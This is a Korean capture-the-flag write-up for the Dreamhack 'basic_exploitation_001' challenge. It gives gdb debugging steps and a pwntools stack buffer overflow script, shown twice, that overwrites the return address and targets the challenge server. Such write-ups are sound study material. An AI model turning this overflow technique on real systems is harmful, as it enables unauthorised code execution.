

# basic_exploitation_001

`docker-compose up -d` 도커 실행

`docker ps` 로 도커 확인

`docker exec -it pwnable-docker_ubuntu22.04_1 /bin/zsh` 도커 열기

`gdb -q basic_exploitation_001` 

`start`

`b *main +n` → 브레이크 포인트 설정, n에 번호를 적으면 된다

`info b` → 브레이크 포인트 확인

`c` 브레이크 포인트 이전부터 실행  

`disassemble main` → main 함수를 disassemble 해준다

`x/32wx $edp -0x80`

`ni`→ 한 칸씩 넘겨준다

`p/d 0x80` 버퍼크기 알려줌

```python
from pwn import *

HOST = 'host3.dreamhack.games' #접속 정보
PORT = 12078 # 포트번호

r = remote(HOST,PORT) # remote 함수를 이용해서 연결을 하고, r변수에 담았음
ret = 0x80485b9 # return address 값 넣어주기

context.arch = 'i386' #32비트 기본 아키텍처
context.endian = 'little' #little endian 사용
context.os = 'linux'#os - linux

payload = ''
payload += 'A' * 0x80 #buffer size
payload += 'B' * 4 #sfp size
payload += p32(ret) #return addr

r.send(payload) # send payload
r.interactive() # exe(실행)
```

python exploit1.py로 실행

```python
from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 12078

r = remote(HOST,PORT)
ret = 0x80485b9

context.arch = 'i386'
context.log_level = 'debug'
context.endian = 'little'
context.os = 'linux'

payload = ''
payload += 'A' * 0x80 #buffer size
payload += 'B' * 4 #sfp
payload += p32(ret) #return addr

r.send(payload) # send payload
r.interactive() # exe
```



→ 디버깅 된 화면